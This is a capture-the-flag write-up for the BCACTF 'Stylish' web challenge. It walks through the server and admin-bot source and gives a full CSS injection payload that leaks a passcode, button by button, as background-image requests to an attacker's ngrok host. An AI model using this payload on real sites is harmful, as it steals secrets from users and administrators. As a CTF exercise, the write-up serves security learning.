 +++
title = "BCACTF Stylish"
date = "2021-06-14T01:46:05+02:00"
author = "Filip Poplewski"
tags = ["CTF", "Web", "English"]
cover = "https://ctftime.org/media/events/LogoArtboard_1.png"
description = """


What can happen if we give users ability to change the color on the website.   
Oh... hack into administrator account, how is this even possible???   
"""

showFullContent = false
readingTime = false
hideComments = false
color = "green" #color from the theme settings
+++



# Stylish

## Challenge description 
![img](/BCACTF/Pasted_image_20210614000841.png)</br>
Stylish is the one of the hardest challenges at the website and it give us 400 points.
Organizers give us URL to website and server source code files.  


## Look at the website 
![img](/BCACTF/Pasted_image_20210613000440.png)</br>
![img](/BCACTF/Pasted_image_20210613000518.png)</br>
Ok so as we can see at website we have got 4 color inputs serialized with JSON and send by GET parameter. By clicking "Submit for review" button we can  send them to admin.    
But second important thing in our website is "Get flag" button.

![img](/BCACTF/Pasted_image_20210613000448.png)</br>
Our goal in this CTF is steal admin secret code to the flag.

## Look at the source code 
#### passcode.js
```js
export default function generatePasscode() {
	const chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"];
	for (let i = 0; i < chars.length - 1; i++) {
		let temp = chars[i];
		let j = Math.floor(Math.random() * (chars.length - i)) + i;
		chars[i] = chars[j];
		chars[j] = temp;
	}
	return chars.join("");
}
```
Password is generated from 16 hexadecimal character in random order. 

#### server.js
```js
app.post("/submit", async (req, res) => {

 try {
	 const {bg, fg, bbg, bfg} = req.body;
	 if (typeof bg !== "string") return res.status(400).type("txt").send("bg must be a string");
	 if (typeof fg !== "string") return res.status(400).type("txt").send("fg must be a string");
	 if (typeof bbg !== "string") return res.status(400).type("txt").send("bbg must be a string");
	 if (typeof bfg !== "string") return res.status(400).type("txt").send("bfg must be a string");
	 const encoded = encodeURIComponent(JSON.stringify({ bg, fg, bbg, bfg }));
	 if (encoded.length > 2000) return res.status(400).type("txt").send("Theme permalink too long (>2000 chars)");

  

	 await visit('http://localhost:1337/#${encoded}', passcode);
	 res.type("txt");
	 res.send("The admin has checked out your theme!");
 } catch (e) {
	 console.error(e.stack);
	 res.sendStatus(500);
 }
});
```
#### visit.js
```js
 await page.goto(url, {waitUntil: "load", timeout: 1000});
 await page.click("#get-flag");
 await page.waitForSelector(".e");

 for (let i \= 0; i < passcode.length; i++) {
	const char \= passcode.charAt(i);
	const id \= "button" + Math.floor(Math.random() \* 123456);
	await page.evaluate(\`
		document.querySelectorAll(".e > button").forEach(button => {
			if (button.innerText === "${char}") {
				button.id = "${id}";
			}
		})
	`);
	await page.click(\`#${id}\`);
	await timeout(50);
 }
 await page.click(".s");
 await timeout(1000);
 ```
By looking at the source code we can see that CSS sent by user isn't verified at all (except checking if it is string but it's not problem at all) so we can easily inject own CSS style.
After setting our CSS style admin sets id (always beginning at "button") to button which creates randomly generated passcode and click them.   


### Attack scenario
1. Send to admin CSS which will try to load background from website hosted on our PC. According on which button have been clicked it will be try to download file with button number. For example if clicked button will be "F" it will try to load img from www.my_website.com/F, if clicked button will be "4" it will try to download www.my_website.com/4.
2. Listen on server img requests.
3. Login for flag with obtained numbers.

### CSS payload
```css
red;}
button:nth-child(1)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/0")}
button:nth-child(2)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/1")}
button:nth-child(3)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/2")}
button:nth-child(4)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/3")}
button:nth-child(5)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/4")}
button:nth-child(6)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/5")}
button:nth-child(7)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/6")}
button:nth-child(8)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/7")}
button:nth-child(9)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/8")}
button:nth-child(10)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/9")}
button:nth-child(11)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/A")}
button:nth-child(12)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/B")}
button:nth-child(13)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/C")}
button:nth-child(14)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/D")}
button:nth-child(15)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/E")}
button:nth-child(16)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/F")}
```





### payload sent
![img](/BCACTF/Pasted_image_20210612234737.png)</br>
Unfortunately my exploit doesn't catch one number (zero) so I had to brute force his position :(

![img](/BCACTF/Pasted_image_20210613000604.png)</br>
After few minute we got the flag.

